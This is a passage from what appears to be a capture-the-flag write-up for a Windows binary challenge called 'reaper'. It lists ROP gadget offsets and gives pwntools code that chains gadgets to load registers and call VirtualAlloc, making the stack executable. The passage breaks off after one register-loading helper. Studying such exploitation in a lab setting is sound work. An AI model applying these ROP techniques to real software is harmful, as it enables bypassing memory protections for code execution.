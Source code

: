 ```python
# Some gadgets
pop_rcx = 0x00000000000031dc            # pop rcx; clc; ret; 
pop_rax = 0x000000000000150a            # pop rax; ret; 
pop_r13 =  0x00000000000047b3           # pop r13; ret; 
mov_rdx_r13 = 0x000000000000368f        # mov rdx, r13; call rax; 
pop_rbx = 0x00000000000020d9            # pop rbx; ret; 
mov_r9_rbx = 0x0000000000001f90         # mov r9, rbx; mov r8, 0; add rsp, 8; ret; 
cmove_r9_rdx = 0x000000000001f37d       # cmove r9, rdx; mov rax, r9; ret; 
mov_r8_0 = 0x0000000000001f93           # mov r8, 0; add rsp, 8; ret; 
add_r8_r9 = 0x0000000000003918          # add r8, r9; add rax, r8; ret; 
pop_rsi = 0x0000000000004116            # pop rsi; ret; 
cmp_esi_0x6348ffff = 0x0000000000012ddb # cmp esi, 0x6348ffff; ret;
ret = 0x000000000001088a                # ret; 
mov_r15_rax = 0x0000000000014b02        # push rax; pop r15; ret; 
mov_qw_rcx_rax = 0x000000000000e1a0     # mov qword ptr [rcx + 8], rax; ret; 
jmp_qw_rcx = 0x000000000001e8a3         # jmp qword ptr [rcx];
jmp_qw_rbx = 0x000000000001ec79         # jmp qword ptr [rbx]; 
```

finding load rcx gadget in ropper:

![ropper](/assets/img/writeups/reaper/user_ropper.png)

After many hours I came up with the following pwntools code to load rcx, rdx, r8 & r9 registers with the needed values and then call ``VirtualAlloc()`` on the stack memory address to make the stack RWX

```python
# IAT
VirtualAlloc = pbase + 0x20000

# register load rop chains

# destroys r9, rbx, rax
def load_r8(value):
 r = b""
 r += p64(pbase + mov_r8_0)
 r += p64(0xdeadbeefdeadbeef)
 r += p64(pbase + pop_rbx)
 r += p64(value)
 r += p64(pbase + mov_r9_rbx)
 r += p64(0xdeadbeefdeadbeef)
 r += p64(pbase + add_r8_r9)
 return r
```
